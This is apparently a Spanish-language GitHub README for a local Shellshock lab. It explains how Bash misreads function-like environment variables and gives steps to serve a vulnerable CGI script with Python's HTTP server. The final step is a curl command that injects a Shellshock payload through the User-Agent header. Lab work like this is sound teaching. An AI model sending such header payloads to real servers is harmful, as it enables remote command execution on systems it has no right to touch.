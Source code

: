 # Laboratorio Shellshock - Exploit vía CGI con Python HTTP Server

Este repositorio contiene un ejemplo práctico para reproducir la vulnerabilidad **Shellshock** usando un script CGI en bash, servido con el módulo CGI de Python.

---

## Descripción

La vulnerabilidad **Shellshock** aprovecha cómo Bash interpreta variables de entorno que parecen definiciones de funciones. En un contexto CGI, si una variable HTTP (como `User-Agent`) es interpretada por Bash sin limpieza, un atacante puede inyectar código y ejecutarlo en el servidor.

Este laboratorio monta un script CGI vulnerable y permite comprobar si la explotación funciona enviando un User-Agent malicioso con `curl`.

---

## Requisitos

- Bash vulnerable (versiones 4.3 y anteriores)
- Python 3 instalado
- Permisos para ejecutar scripts CGI con Python HTTP Server
- `curl` para enviar la petición

---

## Archivos

- `cgi-bin/test.sh` : Script Bash CGI vulnerable a Shellshock

---

## Paso a paso para reproducir el laboratorio

### 1. Clonar este repositorio


### 2.paso  dar permisos de ejecucion

```bash
chmod +x cgi-bin/test.sh

```

### 3. Iniciar el servidor CGI con Python HTTP Server

```python
python3 -m http.server 8000 --cgi
```

### 4. Enviar la petición maliciosa con `curl`

```bash
curl -H 'User-Agent: () { :;}; echo Exploit ejecutado; id' http://localhost:8000/cgi-bin/test.sh
```



